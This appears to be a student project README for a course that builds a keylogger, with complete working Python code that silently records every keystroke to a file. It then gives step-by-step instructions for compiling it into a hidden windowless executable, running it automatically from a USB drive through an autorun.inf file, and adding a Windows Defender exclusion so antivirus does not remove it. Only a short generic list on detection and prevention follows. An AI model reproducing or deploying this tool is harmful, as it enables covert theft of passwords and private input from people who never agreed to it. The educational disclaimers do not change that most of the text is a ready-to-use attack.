 # **Keylogger Project for Cybersecurity Training**  

### **By:** Bilal Sihadi & Mohamed Rouabhi  
### **Course:** CIS 260  
### **Professor:** MD Ali  

---

## 📌 **Project Overview**  
This project is about developing a **keylogger** for **educational and ethical use** in cybersecurity training. The goal is to understand how keyloggers work, how they can capture sensitive data, and how to detect and prevent them.  

⚠ **Important:** This project is **only for learning purposes**. Using keyloggers without permission is illegal. Always follow ethical hacking guidelines.  

---

## 🎯 **Project Goals**  
- ✅ Build a **software-based keylogger** using **Python**.  
- ✅ Deploy a **USB-based keylogger** that runs when plugged into a computer.  
- ✅ Study how keyloggers work on **Windows and Linux**.  
- ✅ Research and test **detection & prevention methods**.  

---

##  **Features**  
### **🔹 Software Keylogger**  
- Records **all keystrokes** (letters, numbers, special keys).  
- Saves logs **locally** with **timestamps**.  
- Works on **Windows & Linux**.  
- Can run in **stealth mode**.  

### **🔹 USB-Based Keylogger (Software Approach)**  
- Runs automatically when plugged into a Windows machine.  
- Stores captured keystrokes on the USB drive.  
- Uses **Python and AutoRun scripts**.  
- No need for special hardware.  

---

##  **How to Install & Run**  

### **1️⃣ Software Keylogger (Python)**  
#### **Requirements:**  
- Python 3.13  
- Required library: `pynput`  

#### **Installation:**  
```sh
pip install pynput
```

#### **Keylogger Code (Python)**  
Copy and save the following code as **keylogger.py**:

```python
from pynput import keyboard   # Import the keyboard listener from the pynput library
from datetime import datetime   # Used to timestamp each keypress
import time    # Used to keep the script running
def keyPressed(key):    # Handles key press events, logs the key pressed along with the timestamp.
     with open("keyfile.txt", 'a') as logKey:  # Open the log file in append mode so previous keystrokes are not overwritten
         try:
             # Log regular character (letters, numbers) 
             logKey.write(f"{datetime.now()} - {key.char}\n")
         except AttributeError:
             # Log special keys (like Enter, Shift, etc.) with timestamp in brackets
             logKey.write(f"{datetime.now()} - [{key.name}]\n")
 
if __name__ == "__main__":
     # Start listening for key presses
     listener = keyboard.Listener(on_press=keyPressed)
     listener.start()  # Start listening
     # Keep the script running quietly in the background
     while True:
         time.sleep(1) # Sleep to prevent high CPU usage
```

#### **Run the Keylogger:**  
```sh
python keylogger.py
```
- The script will record all keystrokes and store them in **keyfile.txt**.  

---

### **2️⃣ USB Keylogger Setup (Windows - Software-Based)**  
This method turns a normal USB drive into a **portable keylogger** that starts when plugged into a Windows computer.  

#### **Step 1: Convert the Keylogger to an Executable**  
To run without needing Python installed, convert it into an **EXE file**:  
```sh
pip install pyinstaller
pyinstaller --onefile --noconsole keylogger.py
```
- This will create an EXE file in the `dist/` folder.  
- Move `dist/keylogger.exe` to the USB drive.  

---

#### **Step 2: Create an Autorun Script**  
1. Open Notepad and paste the following:  
   ```ini
   [Autorun]
   open=keylogger.exe
   action=Open folder to view files
   ```
2. Save this as **autorun.inf** on the USB drive.  

---

#### **Step 3: Plug the USB Into a Windows Computer**  
- If **AutoRun** is enabled, `keylogger.exe` will start running in the background.  
- If not, manually open the USB and **run keylogger.exe**.  

---

## 🔐 Windows Defender Exclusion

To prevent automatic deletion during testing:

1. Open **Windows Security**
2. Go to **Virus & threat protection** → **Manage settings**
3. Scroll down to the **Exclusions** section
4. Click **Add or remove exclusions**
5. Add:
   - The `.exe` file (e.g., `keylogger.exe`)
     
> ⚠️ This step is important because antivirus software (especially Windows Defender) will likely detect and remove your keylogger.

---

##  **How to Detect & Prevent Keyloggers**  
- **Disable AutoRun & AutoPlay** to prevent automatic execution.  
- **Use antivirus & endpoint security tools**.  
- **Monitor running processes** for suspicious activity.  
- **Encrypt sensitive keystrokes** to prevent logging.  

---

##  **Ethical Considerations**  
- This project is for **learning and research only**.  
- Testing is done in a **controlled environment** (no real user data).  
- Always get **permission** before using keyloggers.  

---

##  **Expected Outcomes**  
- A **fully working keylogger** for **ethical training**.  
- A report on **how to detect and prevent keyloggers**.  
- A better understanding of **cybersecurity threats**.  

---

##  **Contributors**  
  **Bilal Sihadi**  
  **Mohamed Rouabhi**  

---

##  **License**  
This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

